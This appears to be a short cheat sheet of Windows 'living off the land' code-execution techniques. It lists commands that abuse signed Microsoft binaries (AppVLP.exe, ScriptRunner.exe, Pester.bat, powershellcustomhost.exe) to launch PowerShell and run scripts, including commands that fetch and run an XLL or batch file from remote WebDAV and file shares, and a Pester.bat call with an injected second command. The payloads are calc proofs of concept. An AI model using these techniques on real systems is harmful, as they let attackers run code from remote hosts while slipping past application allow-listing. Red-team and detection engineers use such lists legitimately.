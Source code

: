 # Code Execution...
## appvlp.exe
```
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject shell.application;$e.ShellExecute('calc.exe', '', '', 'open', 1)"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe powershell.exe -c "$e=New-Object -ComObject excel.application;$e.RegisterXLL('\\webdav\xll_poc.xll')"
C:\Program Files (x86)\Microsoft Office\root\client\AppVLP.exe \\webdav\calc.bat
```

## scriptrunner.exe
```
C:\Windows\System32\ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
C:\Windows\System32\ScriptRunner.exe -appvscript powershell.exe -args
```

## pester.bat
```
C:\Program Files (x86)\WindowsPowerShell\Modules\Pester\3.4.0\bin\Pester.bat help  "; Get-Process"
```

##  powershellcustomhost.exe
```
C:\Program Files\IIS\Microsoft Web Deploy V3\Scripts\powershellcustomhost.exe calc.ps1
```
